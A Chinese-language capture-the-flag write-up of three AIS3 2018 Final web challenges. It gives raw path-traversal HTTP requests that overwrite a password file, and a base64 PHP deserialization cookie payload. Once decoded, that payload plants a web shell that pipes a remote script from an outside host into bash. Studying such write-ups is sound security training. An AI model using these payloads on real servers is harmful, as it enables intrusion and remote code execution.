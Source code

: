 # AIS3 2018 Final

## web 100

這題就是他會告訴你下一個HTTP Method要送啥

你送過去，他就噴給你flag的一個字元

就把它噴完吧

`AIS3{HtTpMe5h0dI5FunaNdGo0DXDdDdDDDx!}`

## web 200

這題是Flask題目

他的架構是Reverse Proxy

Client送出request後，Server會再把request發出去 (以這題來說，他是發給自己)

然後Server拿到Response，會先log起來，再回傳給Client

這邊`write_to_file`裡面的os.join沒有嚴格處理好，`clean_url()`可以塞`../`

所以我們就能控制寫檔的路徑惹

而且這邊內容由於會被覆寫，所以只會寫入最後的`r.content`，也就是`QAQ`

然後FLAG要在我們送`ADMIN` method，且指定路徑的檔案內容跟我們送過去的POST data一樣才會噴出來

但這邊路徑沒辦法`../`，我們只能比對`password/`下的內容

所以我們最後可以送`GET /../../../password/kaibro`，他就會把`QAQ`寫到`password/kaibro`

訪問`ADMIN /kaibro`，並POST帶上`QAQ`就能拿到FLAG惹

payload:

寫檔:

```
GET /../../../password/kaibro HTTP/1.1
Host: localhost:8787
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: _ga=GA1.1.434020595.1513762852
Connection: close
Upgrade-Insecure-Requests: 1
```

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 3
Server: Werkzeug/0.14.1 Python/2.7.15
Date: Sun, 05 Aug 2018 06:28:04 GMT

QAQ
```

訪問ADMIN拿flag:

```
ADMIN /kaibro HTTP/1.1
Host: srv02.ctf.ais3.org:8787
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 3

QAQ
```

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 34
Server: Werkzeug/0.14.1 Python/2.7.15rc1
Date: Sun, 05 Aug 2018 06:28:57 GMT

AIS3{f1aSk_pr0Xy_5Erver_15_N1Ce!!}
```

## misc 300

這題其實是純Web

題目進去是個Web介面，會顯示一頂帽子和一個輸入框

可以輸入色碼，他會改變帽子顏色

稍微踹一下可以發現有`.git`

然後可以還原Source Code

他裡頭在做的事是，他會取出`$_COOKIE['hat_profile']`，然後去`base64_decode()`

最後再`unserialize()`

所以這邊就有一個反序列化漏洞

我們可以控到裡面的`UserProfile`這個class的變數值

裡頭有兩個變數，一個是記錄要寫檔的路徑，一個是記錄內容

但困難點是，雖然內容控得到，但`file_put_contents`的時候，會強制在前面加上`<?php die('Access Denied'); ?>`

所以就得想辦法繞過這個限制，不然我們後面塞啥都不會被執行

這裡用到的trick是，`file_put_contents`第一個參數可以用`php://filter`

(類似這樣: `php://filter/write=string.rot13/resource=shell.php`)

這邊我用`rot13`把Access Denied那一段轉成不會被解析的文字

最後，把後面內容控成我們要的內容即可(兩次rot13會還原)

流程就是：先把payload序列化，再base64 encode，最後塞進cookie，然後訪問就會寫檔惹，接著就拿shell

Payload:

`TzoxMToiVXNlclByb2ZpbGUiOjI6e3M6MTc6InNldHRpbmdfc2F2ZV9wYXRoIjtzOjUxOiJwaHA6Ly9maWx0ZXIvd3JpdGU9c3RyaW5nLnJvdDEzL3Jlc291cmNlPXNoZWxsMy5waHAiO3M6MTc6IgBVc2VyUHJvZmlsZQBkYXRhIjthOjI6e3M6MzoiaGF0IjtzOjE6ImEiO3M6NDoiaGF0MiI7czo0NjoiPD9jdWMgZmxmZ3J6KCdwaGV5IHhudm9lYi5nai9ufG9uZnUnKTs/Pnhudm9lYiI7fX0=`

`AIS3{Conquer_The_World}`
